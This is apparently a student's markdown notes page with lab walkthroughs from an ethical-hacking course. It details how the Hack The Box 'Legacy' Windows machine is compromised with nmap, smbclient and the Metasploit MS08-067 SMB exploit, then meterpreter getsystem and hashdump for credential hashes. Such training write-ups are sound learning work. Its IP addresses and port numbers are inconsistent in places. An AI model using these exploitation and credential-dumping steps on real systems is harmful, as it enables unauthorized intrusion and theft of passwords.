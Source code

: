 
<head>
<link rel="stylesheet" href="css/retro.css">
</head>

## Misc Writeups
----
### Summary

All systems covered in the section 12 'Mid-Course Capstone' (https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/17398048#content)

----
#### Walkthrough - Legacy (Windows)
* nmap -A -T4 -p- 10.10.10.48 
    * ports 139/145 are open (SMB)
* smbclient -L \\\\10.01.10.4\\ 
    * no connection
* msfconsole
    * search smb_version
    * use auxiliary/scanner/smb/smb_version
        * options: set rhosts 10.10.10.4
        * run / exploit
* Google 'smb windows xp sp3 exploit' 
    * https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
* msfconsole 
    * use exploit/windows/smb/ms08_067_netapi
        * options: set rhosts 10.10.10.4
        * run
    * meterpreter shell
        * getuid
        * getsystem (priv escalation if not su)
        * hashdump (get be cracked offiline)
        * get CTFs     
---
####   Walkthrough - Lame ()
---

---
